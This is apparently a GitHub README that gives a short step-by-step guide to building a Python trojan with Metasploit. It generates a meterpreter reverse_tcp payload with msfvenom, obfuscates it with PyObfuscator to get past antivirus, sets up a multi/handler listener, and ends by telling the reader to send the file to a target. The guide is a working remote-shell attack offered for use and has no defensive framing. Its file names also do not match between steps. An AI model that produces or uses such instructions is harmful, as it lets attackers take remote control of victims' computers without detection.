 # Create python trojan with Metasploit and bypass all antiviruses (READ THIS AS CODE)

1 : Install python and metasploit or using kali linux

2 : Next install requreiments

3 : Create payload and obfuscation it 

4 : Build up listener with metasploit and send payload obfuscation to target 

# Requreiments 

pip install PyObfuscator

Optional : if you want you can change it to exe file after obfuscation it for doing this read it (https://github.com/CharonDefalt/Bad-usb)

# Create payload

msfvenom -p python/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -o payload.py

After that lets obfuscation it with below command :

PyObfuscator payload_5050.py

# Build listener

use multi/handler
set PAYLOAD python/meterpreter/reverse_tcp
set LHOST YOURIP
set lport YOURPORT
run

# Final Part
Now send this file ( payload_obfu.py ) to target


